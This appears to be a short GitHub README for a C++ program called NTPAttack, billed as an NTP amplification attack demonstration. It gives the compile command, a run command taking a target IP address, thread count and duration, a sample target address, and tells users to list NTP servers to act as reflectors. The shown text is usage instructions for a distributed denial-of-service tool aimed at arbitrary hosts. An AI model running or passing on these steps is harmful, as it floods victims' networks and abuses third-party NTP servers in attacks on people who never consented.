 # NTP-Amplification-Attack-demonstration-CPP
NTP Amplification Attack demonstration C++


===
Compiling.
===
    gcc NTPAttack.cpp -o NTPAttack -lstdc++ -lpthread
Running NTPAttack.
===
	sudo ./NTPAttack [target] [threads] [time]

	example: $ sudo ./NTPAttack 132.163.97.1 3 10
ntp.list :
===
Add some ntp server ip addresses in the ntp.list file
